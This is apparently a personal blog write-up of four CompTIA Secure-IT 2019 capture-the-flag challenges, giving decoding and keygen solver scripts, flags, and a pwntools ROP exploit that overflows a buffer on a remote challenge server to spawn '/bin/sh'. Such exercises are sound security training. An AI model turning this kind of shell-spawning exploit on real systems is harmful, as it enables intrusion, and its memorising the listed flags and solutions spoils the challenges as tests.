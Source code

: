 ```yaml
---
layout : default
---
```


# CompTIA Secure - IT 2019
06-10-2019

## Secure Password (RE)

I analysed the binary and got the following key character mapping. According to this matrix, 11=a 12=b 13=c etc.

```
  1  2  3  4  5
1 a  b  c  d  e
2 f  g  h i/j k
3 l  m  n  o  p
4 q  r  s  t  u
5 v  w  x  y  z
```

```py
flag_chars = "abcdefghijklmnopqrstuvwxyz"
chars_mapping = ['11', '12', '13', '14', '15', '21', '22', '23', '24', '24', '25', '31', '32', '33', '34', '35', '41', '42', '43', '44', '45', '51', '52', '53', '54', '55']

given = "3254431513454215214533134424343324433344431513454215"
tmp = [given[i]+given[i+1] for i in range(0, len(given), 2)]

flag = ''.join(flag_chars[chars_mapping.index(i)] for i in tmp)

print flag
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/secure_flag.JPG)

FLAG: CTFHUB{mysecurefunctionisntsecure}

## Keygen me (RE)

We need to fulfil some constraints to find a valid key for this software.

```py
import angr
import claripy

p = angr.Project("/bin/true")
state = p.factory.entry_state()
STRLEN = 45
flag_nums = [claripy.BVS("flag_%d" % i, 32) for i in range(STRLEN)]

summm = 0
a = "CTFHUB-"
for i in range(len(a)):
	flag_nums[i] = ord(a[i])

for i in range(0, 45):
	state.solver.add(flag_nums[i] >= 33,flag_nums[i] <= ord("z"))
	summm += flag_nums[i]

state.solver.add(summm == 1769)


flag = [state.solver.eval(i) for i in flag_nums]

print flag[::]

print ''.join(chr(i) for i in flag)
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/keygen.JPG)

FLAG: CTFHUB{dat_w4s_BaD_l1c3ns3_ch3ck}

## Babybof (PWN)

This was simple ret2func exploit.

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/babybof_flag.JPG)

FLAG: CTFHUB{dat_w4s_just_w4RmuP}

## SuperROP (PWN)

```py
from pwn import *


#r = process("./superrop")
r = remote('165.22.223.31', 9000)

print r.read()


payload = 'A'*56
payload += p64(0x400596) # pop rdi, ret
payload += p64(0x400658) # /bin/sh string
payload += p64(0x400577) # run_cmd address

r.sendline(payload)
r.interactive()
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/rop_flag.JPG)

FLAG: CTFHUB{da_r0p_g0es_skkkkrrrt}

---
